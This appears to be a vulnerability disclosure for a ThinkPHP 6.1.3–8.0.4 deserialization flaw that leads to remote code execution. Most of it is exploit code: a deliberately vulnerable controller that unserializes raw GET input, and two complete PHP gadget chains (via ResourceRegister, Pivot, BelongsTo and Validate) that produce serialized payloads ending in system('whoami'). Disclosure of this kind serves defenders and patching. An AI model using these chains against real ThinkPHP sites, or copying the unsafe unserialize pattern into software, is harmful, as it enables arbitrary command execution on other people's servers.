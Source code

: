 ## Vulnerability description

A deserialization vulnerability in Thinkphp v6.1.3 to v8.0.4 allows attackers to execute arbitrary code.

By triggering the __call method of the Validate class



## Affects Version



Thinkphp v6.1.3 to v8.0.4

## Vulnerability certificate

php8.0.2 thinkphp v8.0.0



First, add new deserialization endpoint in app\controller\Index.php, such as:

```php
<?php

namespace app\controller;

use app\BaseController;

class Index extends BaseController
{
    public function index()
    {
        unserialize($_GET['lll']);
        return '<style>*{ padding: 0; margin: 0; }</style><iframe src="https://www.thinkphp.cn/welcome?version=' . \think\facade\App::version() . '" width="100%" height="100%" frameborder="0" scrolling="auto"></iframe>';
    }

}
```



POC

```
<?php

namespace think\model\concern;

trait Attribute
{
    private $data = ["key" => ["key1" => "whoami"]];
    private $withAttr = ["key"=>["key1"=>"system"]];
    protected $json = ["key"];
}
namespace think;

abstract class Model
{
    use model\concern\Attribute;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $jsonAssoc;
    function __construct($obj = '')
    {
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->table = $obj;
        $this->jsonAssoc = true;
    }
}
namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\Pivot;
class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new Pivot(new Pivot());
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));
```



```java
<?php

namespace think;
class Validate{

}

namespace think;

abstract class Model
{

    private $data = [];
    private $withAttr = [];
    protected $json = [];
    protected $jsonAssoc = true;
    private $lazySave;
    protected $withEvent;
    private $exists;
    private $force;
    protected $table;
    protected $connection;
    function __construct()
    {
        $this->data["lll"]=["whoami"];
        $this->withAttr["lll"]=["system"];
        $this->json=["lll"];
        $this->lazySave = true;
        $this->withEvent = false;
        $this->exists = true;
        $this->force = true;
        $this->jsonAssoc = true;

    }
}
namespace think\model\relation;
use think\model\Pivot;
use think\Validate;

class BelongsTo{
    protected $query;
    protected $parent;
    protected $foreignKey;
    function __construct(){
        $this->query=true;
        $this->parent=new Validate();
        $this->foreignKey=new Pivot();
    }

}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}


namespace think\route;
use think\model\relation\BelongsTo;

class ResourceRegister
{
    protected $registered = false;
    protected $resource;
    protected $db;
    function __construct()
    {
        $this->registered=false;
        $this->resource=new BelongsTo();
    }
}


namespace think;
use think\route\ResourceRegister;
$r=new ResourceRegister();
echo urlencode(serialize($r));

```

![image-20240912110022907](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240912110022907.png)
